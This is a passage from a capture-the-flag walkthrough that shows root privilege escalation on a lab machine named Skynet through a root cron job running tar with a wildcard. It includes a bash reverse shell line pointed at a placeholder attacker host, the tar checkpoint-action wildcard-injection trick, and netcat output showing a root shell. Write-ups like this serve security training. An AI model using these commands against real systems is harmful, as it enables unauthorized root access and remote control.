 The user flag is as `/home/milesdyson/user.txt`. At this point you can switch to the milesdyson user using the same password we used for the email account (you'll need to upgrade to a tty shell to use `su`), but this is not required for privesc to root.

## 5. Privesc, milesdyson -> root - cronjob, tar

Navigating to `/home/milesdyson/`, we find the previously discovered `mail` and `share` directories, along with a `backups` directory containing a `backup.tgz` archive and the following script `backup.sh` (which is only writeable and executable as root) :

```sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
We might assume then that this script is run at regular intervals to provide backups of the site at `/var/www/html`. Checking `/etc/crontab`, we find that it is run once a minute as the root user : 

```console
$ cat /etc/crontab
...snip...
# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
```
The script doesn't give us much to go on, but [GTFObins provides the following way to get a shell out of tar](https://gtfobins.github.io/gtfobins/tar/) by exploiting the "checkpoint-action=" flag : 

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This is all well and good, but neither of the `www-data` or `milesdyson` users can write to the script to add these flags to the call to tar. But the asterisk wildcard in the `tar cf /home/milesdyson/backups/backup.tgz *` is interesting here. [Stackoverflow tells us that in cases like this, the shell expands the * wildcard before the command containing the wildcard is run](https://unix.stackexchange.com/questions/505707/how-is-the-wildcard-interpreted-as-a-command) - this means that running `tar *` in a directory containing files "a.txt b.txt" would result in the command "tar a.txt b.txt". Presumably then we can create files with names matching the flags required to force tar to run our reverse shell - googling "tar asterisk wildcard exploit" seems to confirm this too.

To perform the exploit, we first create a bash reverse shell in `/var/www/html` :

```console
$ cd /var/www/html
$ echo "bash -i >& /dev/tcp/ATTACK-IP/6666 0>&1" > rs.sh
```

We then create two additional files, one for each of the flags required to initiate a shell with tar : 

```console
$ echo "" > "--checkpoint=1"
$ echo "" > "--checkpoint-action=exec=bash rs.sh"
```

After a minute or so, `backup.sh` is run by cron and the reverse shell connects back to a listener on our attack machine : 

```console
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 6666
listening on [any] 6666 ...
connect to [ATTACK-IP] from (UNKNOWN) [10.10.191.241] 36704
...snip...
root@skynet:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is at `/root/root.txt`.
